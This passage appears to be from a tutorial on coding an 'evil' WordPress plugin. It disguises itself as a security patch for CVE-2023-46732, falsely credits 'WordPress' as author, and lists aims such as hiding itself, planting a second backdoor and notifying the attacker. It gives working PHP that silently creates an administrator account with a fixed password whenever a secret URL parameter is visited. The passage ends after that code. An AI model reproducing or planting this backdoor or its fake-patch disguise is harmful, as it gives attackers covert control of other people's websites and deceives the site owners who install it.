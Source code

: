 Time to start coding our evil plugin. I will devide the plugin into two parts: the backdoor part and the plugin part. The backdoor part is the code that give us the functionality to create a user with admin privileges by visiting a URL. And the plugin part is the code that wraps the backdoor and makes it look and act as a plugin and manages the plugin functionality. Both must fulfill some requirements: 

Our backdoor must:

- [x] Allow user creation with admin privileges.
- [x] Hide that admin user from a regular users inspection.
- [x] Be difficult to find and remove.
- [ ] Be both easy and difficult to trigger (more on that later).

As you can see, we already have our backdoor requirements almost covered. We will review it and set it up like in a real-case scenario but it won't differ much from **[this](https://github.com/amtzespinosa/wp-backdoor)**.

And our plugin will have to meet some requirements as well in order to accomplish its task on activation. These requirements are:

1. **Activate our backdoor** waiting for us to trigger it.
2. **Plant a second backdoor** (just in case we are not evil enough).
3. **Hide himself from plugins list.**
4. **Send us a notification** regarding the website that activated it.

We already have the backdoor code, so let's begin with the plugin. 

### Coding the plugin

Let's start with the plugin header (if you want to know more about plugin development, visit the **[WordPress Plugin Handbook](https://developer.wordpress.org/plugins/)**) and the basic functionality of setting the backdoor. All **WordPress** plugins begin with a header. Let's start making the plugin look legit adopting the **security patch excuse**:

```php
<?php

/*
* Plugin Name:       WordPress Patch CVE-2023-46732
* Plugin URI:        https://github.com/amtzespinosa/wp-backdoor
* Description:       This security plugin serves as a patch for the recently identified vulnerability known as CVE-2023-46732.
* Version:           1.0
* Author:            WordPress
* Author URI:        https://wordpress.org/
*/
```

The next code is the backdoor. When triggered by visiting *https://example-url.com/?backdoor=go* it will automatically create a user, **new_admin**, with admin privileges and with the password **new_pass**.

```php 
add_action( 'wp_head', 'wp_backdoor' );

function  wp_backdoor() {
    if ( isset( $_GET['backdoor'] ) && $_GET['backdoor'] == 'go' ) {
        require( ABSPATH . 'wp-includes/registration.php' );
	    if ( !username_exists( 'new_admin' ) ) {
		    $user_id = wp_create_user( 'new_admin', 'new_pass' );
		    $user = new  WP_User( $user_id );
		    $user->set_role( 'administrator' );
	    }
    }
}
```
